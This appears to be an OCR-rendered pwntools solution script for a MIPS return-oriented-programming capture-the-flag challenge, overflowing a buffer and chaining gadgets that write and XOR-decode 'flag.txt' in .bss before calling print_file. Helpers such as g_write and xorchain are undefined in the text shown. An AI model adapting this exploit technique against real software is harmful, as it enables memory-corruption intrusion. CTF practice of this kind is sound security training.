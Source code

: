```python
# lw $t9, 0xc($sp) ; lw $t0, 8($sp) ; lw $t1, 4($sp) ; lw $t2, ($t1) ; xor $t0, $t0, $t2 ; sw $t0, ($t1) ; jalr $t9 ; addi $sp, $sp, 0x10
g_xor = 0x00400948

# lw $a0, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; addi $sp, $sp, 0xc
g_set_a0_and_call = 0x00400968

if len(sys.argv)>1 and sys.argv[1] == "-d":
    io = gdb.debug([elf.path],gdbscript=gs)
else:
    io = process([elf.path])


print_file = elf.plt["print_file"]
bssaddr = elf.get_section_by_name('.bss').header['sh_addr']

log.info(f"{bssaddr=:x}")
log.info(f"{print_file=:x}")



offset=0x24
flagxored = xorchain(b"flag.txt",0b00111010,3)

PL=b"A"*offset
# first gadget write "flbd"
PL+=p32(g_write)
PL+=p32(0xdeadbeef)        # junk
PL+=flagxored[:4]          # t1
PL+=p32(bssaddr)           # t0
PL+=p32(g_write)           # t9 => next gadget

# Secon gadget write "-t{t"
PL+=p32(0xf00df00d) 	   # junk
PL+=flagxored[4:8]         # t1
PL+=p32(bssaddr+4)         # t0

# xor each modified char
# 2 3 4 6
for idx in [2,3,4,6]:
    PL+=p32(g_xor)          # t9 => next gadget pop by prior gadget
    PL+=p32(0xdeadbeef)     # junk
    PL+=p32(bssaddr+idx)    # t1
    PL+=p32(3)              # t0

PL+=p32(g_set_a0_and_call)  # t9 => next gadget for prior
PL+=p32(0xaaaaaaaa)         # junk for addi $sp, $sp, 0x10

# call print_file(@.bss)
PL+=p32(print_file)        # t9
PL+=p32(bssaddr)           # a0

log.info(f"Payload size : 0x{len(PL):x}")
log.info(PL.hex())
io.sendlineafter(b"> ",PL)

io.recvuntil(b"ROPE")
flag=io.recvline().decode()
log.success(f"flag : ROPE{flag}")
io.close()
```
